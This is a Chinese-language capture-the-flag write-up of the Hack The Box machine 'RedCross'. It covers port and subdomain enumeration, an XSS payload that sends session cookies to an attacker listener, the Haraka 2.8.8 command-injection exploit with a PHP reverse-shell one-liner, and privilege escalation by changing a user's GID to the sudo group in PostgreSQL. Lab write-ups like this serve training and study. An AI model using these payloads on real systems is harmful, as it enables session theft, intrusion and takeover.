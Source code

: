```yaml
---
description: 中等 / XSS / PostgreSQL
---
```


# ✔️ RedCross

## 建立立足点

### 信息收集

* 使用Nmap进行对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA redcross 10.129.9.55 --open
```

<figure><img src="../../.gitbook/assets/1 (33).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，发现它重定向到https://intra.redcross.htb/这个地址，将域名添加到/hosts文件中，然后再次访问，获得一个登录页面：

<figure><img src="../../.gitbook/assets/2 (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/3 (28).png" alt=""><figcaption></figcaption></figure>

* 尝试几个弱口令均失败后，使用dirsearch扫描是否有隐藏文件/目录，没什么收获：

```bash
dirsearch -u  http://10.129.9.55 -x 403,404,400
```

<figure><img src="../../.gitbook/assets/4 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用Wfuzz尝试扫描子域，发现有两个结果：

```bash
wfuzz -c -u https://intra.redcross.htb -H "Host:FUZZ.redcross.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl
```

<figure><img src="../../.gitbook/assets/5 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将以上子域也添加到/hosts文件中，再访问admin这个子域就获得了一个管理登录界面，简单尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/6 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 找到的两个登录界面也没有查看到所使用的公开已知的软件信息，因此无法通过常规的搜寻公开已知漏洞进行利用。在当前没有任何有效凭证的情况下，尝试暴力破解无果。决定从头枚举，发现遗漏了对443端口的扫描：

```bash
dirbuster -u https://intra.redcross.htb:443 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -r
```

* 陆续又扫出一些目录和页面：

<figure><img src="../../.gitbook/assets/8 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (28).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 花了大量的时间进行扫描，实在是没找到什么有用的东西和凭证，所以决定从已经枚举出的页面进行测试。因为其他几个都是登录页面，所以先从有输入框的contact页面开始进行XSS测试，先寻找XSS注入点。
* 首先简单写个\<script>脚本标签，依次放入不同的输入框中进行POST提交，观察有无返回信息，以及返回信息的具体内容：

<figure><img src="../../.gitbook/assets/11 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 当把\<script>脚本标签放入contact phone or email这个框中时，返回了已发送的提示，说明此时我们已找到了注入点：

<figure><img src="../../.gitbook/assets/13 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后开始构建注入语句，先简单测试一下和本机是否通信：

```html
# 在输入框中
<script src="http://10.10.16.17:8888/test"></script>
# 在Kali本机做好监听
nc -lvnp 8888
```

<figure><img src="../../.gitbook/assets/16 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后构建一个尝试获取有效的会话cookie的语句，当能获取到有效的cookie时，我们就能将该cookie放入自己的浏览器中，绕过原有的密码输入，伪装成该用户进行登录：

<pre class="language-html"><code class="lang-html">nc -lvnp 8888
<strong>&#x3C;script>new Image().src="http://10.10.16.17:8888/test.php?c="+document.cookie;&#x3C;/script>
</strong></code></pre>

<figure><img src="../../.gitbook/assets/17 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 此时已获取到了有效的PHPSESSIONID，并且后面的域是指向admin的，说明是admin这个页面的cookie，去admin页面登录。替换掉原有的PHPSESSIONID，然后刷新页面即可登录成功：

<figure><img src="../../.gitbook/assets/19 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21.png" alt=""><figcaption></figcaption></figure>

* 进入Network Access，发现是一个设置白名单的界面，将自己的IP先添加进去：

<figure><img src="../../.gitbook/assets/22.png" alt=""><figcaption></figcaption></figure>

* 进入User Management里，添加一个新用户，获得了系统生成的密码，同时还发现了另一个用户tricia：

<figure><img src="../../.gitbook/assets/44.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

* 尝试用这个有效凭证登录之前的intra页面，登录失败：

<figure><img src="../../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

* 但是根据Nmap的扫描结果，还有一个SSH服务，利用这个有效凭证登录成功：

<figure><img src="../../.gitbook/assets/26.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27.png" alt=""><figcaption></figcaption></figure>

* 里面并没有flag，但是找到了另外一个新用户：penelope
* 因为已经将自己的IP地址加入了目标系统的白名单，再次扫描开放端口发现多了几个：

```bash
nmap -sC -sV -p- -oA redcross2 10.129.6.250 --open
```

<figure><img src="../../.gitbook/assets/28.png" alt=""><figcaption></figcaption></figure>

* 尝试匿名登录FTP失败：

<figure><img src="../../.gitbook/assets/29.png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出结果，5432端口上运行了postgresql服务，尝试用默认凭证登录不成功：

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

* 还剩下一个1025端口，因为该端口上运行的并不是常规的服务，所以可以使用netcat和该端口上的服务进行交互，从而获取到它运行的服务名和版本等信息：

```bash
nc -vvvv 10.129.6.250 1025
```

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

* 得到服务为：Haraka 2.8.8，然后搜索相关公开漏洞发现有一个远程命令注入：

<figure><img src="../../.gitbook/assets/33.png" alt=""><figcaption></figcaption></figure>

* 下载搜索到的脚本到本地：

<figure><img src="../../.gitbook/assets/34.png" alt=""><figcaption></figcaption></figure>

* 查看帮助信息如何使用该脚本，并且查看脚本内容发现默认端口处需要修改为目标的开放端口1025：

<figure><img src="../../.gitbook/assets/35.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/36.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/37.png" alt=""><figcaption></figcaption></figure>

* 利用该脚本执行反弹shell，此处用到常用的pentestmokey reverse shell中的PHP反弹shell：

<figure><img src="../../.gitbook/assets/38.png" alt=""><figcaption></figcaption></figure>

```bash
# 注意需要转义符，并在kali本机做好监听
python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.16.17\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.129.6.250
```

<figure><img src="../../.gitbook/assets/39 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/40.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/41.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 常规的枚举检查，没有找到可以利用的点：

<figure><img src="../../.gitbook/assets/42.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/43.png" alt=""><figcaption></figcaption></figure>

* 依次检查目标系统上的各个目录，在/var/www/html/admin/pages目录下找到几个php文件，其中actions.php、login.php、users.php里面都包含了大量的可用于连接postgresql的用户凭证：

<figure><img src="../../.gitbook/assets/45.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/46.png" alt=""><figcaption></figcaption></figure>

* 使用以上用户凭证连接数据库，该文件中已经包含了table名，直接查询获得之前admin界面的两个用户凭证：

```bash
psql -h 127.0.0.1 -p 5432 -U unixusrmgr -d unix
# 查询表里的用户名和密码
SELECT * FROM passwd_table;
```

<figure><img src="../../.gitbook/assets/48.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/47 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 因为系统中的每一个用户都有唯一的UID和GID，当可以滥用sudo配置将任意用户添加进sudo组，就能通过sudo命令执行root权限才能执行的命令，实现提权。查询sudo组的ID为27，将之前新添加进去的用户fiii的GID改为27：

```bash
# 在postgresql中
update passwd_table set gid=27 where uid=2021;
```

<figure><img src="../../.gitbook/assets/49 (1).png" alt=""><figcaption></figcaption></figure>

* 之前已经由目标系统生成了新用户的凭证，所以直接登录ssh服务，然后切换超级用户即可实现提权：

```bash
ssh fiii@10.129.111.68
sudo su
```

<figure><img src="../../.gitbook/assets/50.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/52.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例完成的并不顺利，对我来说有一些难度。Get Shell阶段当没有任何收获时，多换几个工具扫描试试，但不能一味指望着扫描能扫出来东西，会浪费很多时间。靶场的机器名字有时是关于所使用的应用的漏洞提示，有时还可以是关于攻击手法的提示。权限提升阶段涉及到对目标系统各个文件夹的枚举，并不是因为某第三方软件或者系统有漏洞，而是属于滥用sudo配置可将任意用户添加进sudo组所导致的提权成功。

(本例机器中途重置过，IP地址有变化，但不影响漏洞利用及其实现结果)
{% endhint %}
